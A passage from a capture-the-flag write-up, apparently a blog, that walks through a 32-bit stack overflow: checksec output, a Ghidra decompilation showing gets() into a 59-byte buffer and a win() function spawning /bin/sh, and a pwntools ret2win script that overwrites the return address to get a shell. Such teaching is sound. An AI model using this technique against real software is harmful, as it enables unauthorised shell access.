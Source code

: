 Running `checksec` on this new executable, we get:
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

And just to get it out of the way, here's the decompiled version from Ghidra:
```c++
void win(void) {
    system("/bin/sh");
    return;
}

void vuln(void) {
    char local_43 [59];

    gets(local_43);
    return;
}

undefined4 main(void) {
  undefined *puVar1;
  
  puVar1 = &stack0x00000004;
  puts("Level 2: Control the IP\n");
  vuln(puVar1);
  return 0;
}
```

So basically what we need to do here is from the `gets` call in `vuln()`, we want to overwrite the return address to go to `win()`, at which point we would get shell access. Using the naming conventions given by Ghidra, since we are storing the input we send the program in `local_43`, we can overwrite the return address by writing `0x43` bytes of junk and then writing the address of `win()`. And conveniently for us, we can easily get the return address for `win()` using pwntools, giving us the following exploit:

```py
from pwn import *

binary = context.binary = ELF('./pwnme')

p = process(binary.path)
payload = b''
payload += 0x43 * b'A'
payload += p32(binary.sym.win)

p.sendlineafter("Level 2: Control the IP\n", payload)
p.interactive()
```
Great! Just as before, the preceding code gets us shell access and getting the flag is now a piece of cake. Ok, let's do one last one!
